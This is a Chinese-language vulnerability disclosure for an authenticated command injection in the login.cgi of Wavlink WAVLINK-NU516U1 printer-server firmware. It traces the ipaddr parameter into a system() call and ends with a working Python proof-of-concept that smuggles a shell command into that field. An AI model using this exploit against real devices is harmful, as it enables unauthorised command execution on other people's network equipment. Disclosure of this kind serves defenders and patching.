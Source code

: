 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其登录界面存在命令注入漏洞，允许攻击者完成授权命令执行。

漏洞细节

对固件解包之后，找到login.cgi程序，使用ida打开在main函数下，在main（ida中显示为ftext）函数中，比对是否是正常登录请求，正常登录请求由函数sub_4012A0进行处理


<img width="994" height="651" alt="image" src="https://github.com/user-attachments/assets/40c49ea5-14a4-4f5d-8763-bf295a10baee" />

在函数sub_4012A0中获取ipaddr的参数值赋值给v9

<img width="942" height="408" alt="image" src="https://github.com/user-attachments/assets/9b619bf6-afe7-4396-ae75-3c32a6868467" />

在登录验证成功之后获取v9的参数值进行拼接到system执行的参数v31中

<img width="1341" height="342" alt="image" src="https://github.com/user-attachments/assets/334a86e9-70a3-4bcd-bdca-14808e9d7c82" />


poc

```
import requests

url = "http://192.168.1.2/cgi-bin/login.cgi"

headers = {
    "Host": "192.168.1.2",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.1.2",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.1.2/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

data = {
    "newUI": "1",
    "page": "login",
    "username": "admin",
    "langChange": "0",
    "ipaddr": "192.168.1.1$( echo 1 >/poc.txt)",
    "login_page": "login.shtml",
    "homepage": "main.shtml",
    "sysinitpage": "sysinit.shtml",
    "wizardpage": "wizard.shtml",
    "hostname": "192.168.1.2",
    "key": "M90920320",
    "lang_select": "en",
    "password": "admin",
    "password_vlaue": "7a72c504b83ee9da9d2d22eb83248670"
}
resp = requests.post(url, headers=headers, data=data)

print(resp.status_code)
print(resp.headers)
print(resp.text)
```



















